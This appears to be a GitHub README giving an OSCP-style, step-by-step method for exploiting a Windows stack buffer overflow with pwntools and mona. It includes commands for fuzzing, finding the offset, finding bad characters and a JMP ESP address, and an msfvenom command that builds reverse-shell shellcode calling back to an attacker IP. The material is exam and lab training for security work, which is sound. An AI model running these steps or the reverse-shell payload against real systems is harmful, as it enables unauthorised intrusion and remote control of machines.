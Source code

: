 After passing OSCP, various people have asked about my process for the buffer overflow.  Well, here it is.  A few things to note:

1. You should take the time to come up with your own methodology that makes sense to you.
2. My method/scripts uses python3 and pwntools.
3. I am not a professional python programmer, there is likely better ways to do it.
4. The usual disclaimers about doing things at your own risk apply.

-------

### 1. Start Immunity/app as administrator

### 2. Confirm connectivity from attack host
```
nc xxx.xxx.xxx.xxx <port>
```

### 3. Fuzz for crash (See fuzzer template)
```
[root@kali:/r/bof]# python3 fuzzer.py
```

### 4. Generate cyclic pattern to find exact crash
```
[root@kali:/r/bof]# cyclic 300
aaaabaaacaaadaaaeaa [ .. snip .. ] afaaagaaahaaaiaaa
```

### 5. Add pattern to "overflow" in exploit.py and repro crash

### 6. Get offset from address in EIP and set "offset"
Get address in EIP and find number of bytes to EIP:
```
[root@kali:/r/bof]# cyclic -l 0x61616275
2003
```

### 7. Remove cyclic pattern from "overflow" and replace with "A" * offset
```
offset = 634 # EIP @ 0x616A6761
overflow = b"A" * offset
eip = b"BBBB" # 
```

### 8. Replicate crash and confirm "B" in EIP

### 9. Find Bad Characters with mona
- Set working dir:
`!mona config -set workingfolder C:\Windows\Temp`
- Create bytearray (without bad chars we know about)
`!mona bytearray --cpb "\x00"` 
- Include list chars in payload (without \x00)
```
badchars = [0x00] # start with null
```
- Repro crash with charpayload
- After the crash use mona to find the next bad char:
`!mona compare -f C:\Windows\Temp\bytearray.bin -a esp`
- Note new bad char, add it to "badchars"
- Repeat steps until no new bad chars are reported

### 10. Find Jump Point using bad chars (running or crashed) - will be in "Log Data" window
```
!mona jmp -r esp -cpb "\x00\x23\x3c\x83\xba"
```

### 11. Put jmp address in "eip" var backwards (little endian)
```
eip = b"\xfa\x11\x50\x62" # 625011AF
```

### 12. Generate shellcode without bad chars and add as "sc" var
```
[root@kali:/r/bof]# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.230 LPORT=6666 EXITFUNC=thread -b "\x00\x23\x3c\x83\xba" -f python -v sc
```

### 13. Add shellcode

### 14. Add NOPs as needed and comment out "charpayload"
```
padding = b"\x90" * 16
```
### 15. Get shell 
